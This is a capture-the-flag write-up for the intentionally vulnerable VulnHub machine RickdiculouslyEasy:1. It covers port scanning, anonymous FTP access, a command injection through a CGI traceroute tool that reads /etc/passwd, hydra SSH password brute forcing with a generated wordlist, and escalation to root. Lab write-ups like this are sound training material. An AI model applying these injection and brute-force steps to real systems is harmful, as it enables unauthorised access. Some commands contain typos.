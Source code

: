 # RICKDICULOUSLYEASY: 1
## Writeup for the RICKDICULOUSLYEASY: 1

Downloadlink : 
https://www.vulnhub.com/entry/rickdiculouslyeasy-1,207/

*130 points of flas and root access*

1) Locate vulnerable machine IP address by using *netdiscover*  **Ip : 192.168.23.133** (^ip address will be diffrent on your machine) 
2) Scan for open ports using *NMAP.* **nmap -sV -p- -v 192.168.23.133**

**-nmap results-**
Nmap scan report for 192.168.18.29

Host is up (0.00015s latency).

Not shown: 65528 closed ports

PORT      STATE SERVICE VERSION

21/tcp    open  ftp     vsftpd 3.0.3

22/tcp    open  ssh?

80/tcp    open  http    Apache httpd 2.4.27 ((Fedora))

9090/tcp  open  http    Cockpit web service 161 or earlier

13337/tcp open  unknown

22222/tcp open  ssh     OpenSSH 7.5 (protocol 2.0)

60000/tcp open  unknown

Did a scan on the ftp server to get more info. ftp server can be accessed anonymous.

PORT   STATE SERVICE VERSION

21/tcp open  ftp     vsftpd 3.0.3

| ftp-anon: Anonymous FTP login allowed (FTP code 230)

| -rw-r--r--    1 0        0              42 Aug 22  2017 FLAG.txt

|_drwxr-xr-x    2 0        0               6 Feb 12  2017 pub

ftp 192.168.18.29 Login: anonymous password: *create a password*

get FLAG.txt 

cat file to get the flag

:pirate_flag: FLAG{Whoa this is unexpected} - 10 Points

use dirb tool to scan 

found http: //192.168.18.29/passwords/

click on the flag file

:pirate_flag: FLAG{Yeah d- just don't do it.} - 10 Points

click the passwords.html and inspect to find a potential password = winter

enter the url http: //192.168.18.29/9090 to get the next flag

:pirate_flag: FLAG {There is no Zeus, in your face!} - 10 Points

use netcat again on port 60000 to get a reverse shell and cat the FLAG.txt

:pirate_flag: FLAG{Flip the pickle Morty!} - 10 Points 

use netcat to enter port 13337 (nc 192.16.29 13337) to get a flag

:pirate_flag: FLAG:{TheyFoundMyBackDoorMorty}-10Points

From the dirb tool we found http: //192.168.18.29/robots.txt

Which gave us 3 links:

/cgi-bin/root_shell.cgi -Not working-

/cgi-bin/tracertool.cgi

/cgi-bin/*

/cgi-bin/tracertool.cgi enables a trace route tool. Use the url to inject less ; less /etc/passwd/ to get a list of users

Following list of users were found:

RickSanchez:x :1000:1000::/home/RickSanchez:/bin/bash

Morty:x :1001:1001::/home/Morty:/bin/bash

Summer:x :1002:1002::/home/Summer:/bin/bash

create a user.txt file with RickSanchez , Morty , Summer 

use hydra tool to crack the password by connecting via ssh = hydra -L user.txt -p winter -s 22222 192.168.18.29 ssh 

[22222][ssh] host: 192.168.18.29   login: Summer   password: winter

connect to ssh = ssh -p 22222 Summer@192.168.18.29

 less FLAG.txt

:pirate_flag: FLAG{Get off the high road Summer!} - 10 Points

Explore /home to find other users

cd to Morty and download the jpg file into local machine = cp -P 22222 Summer@192.168.18.29:/home/Morty/Safe_Password.jpg picture.jpg  

use the strings tool and grep to get clues = strings picture.jpg | grep word
                                                           127 ⨯
8 The Safe Password: File: /home/Morty/journal.txt.zip. Password: Meeseek

download the zip file to local machine = scp -P 22222 Summer@192.168.18.29:/home/Morty/journal.txt.zip test.zip

cat unzipped file to get flag

:pirate_flag: FLAG: {131333} - 20 Points

cd to RickSanchez and move the safe exe file Summer diretory 

excute ./safe 

Past Rick to present Rick, tell future Rick to use GOD DAMN COMMAND LINE AAAAAHHAHAGGGGRRGUMENTS!

try the previous flags numbers as arguments 

flag unlocked

:pirate_flag: FLAG{And Awwwaaaaayyyy we Go!} - 20 Points

found some clues for the next flag:

1 uppercase character

1 digit

One of the words in my old bands name.

Use google search to find Rick Sanchez band = The Flesh Curtains

Write a python scrip to generate a password list with clues: 

import string

words = ['The', 'Flesh', 'Curtains']

for i in string.ascii_uppercase:

    for j in string.digits:

        for k in words:

            print('{0}{1}{2}'.format(i, j, k))

Create a text file with generated password

use hydra to crack password = hydra -l RickSanchez -P passwordlist.txt -T4 -s 22222 192.168.18.29 ssh

enter RickSnachez user and sudo su to gain access to root

cd to root folder and cat file for final flag

:pirate_flag: FLAG: {Ionic Defibrillator} - 30 points





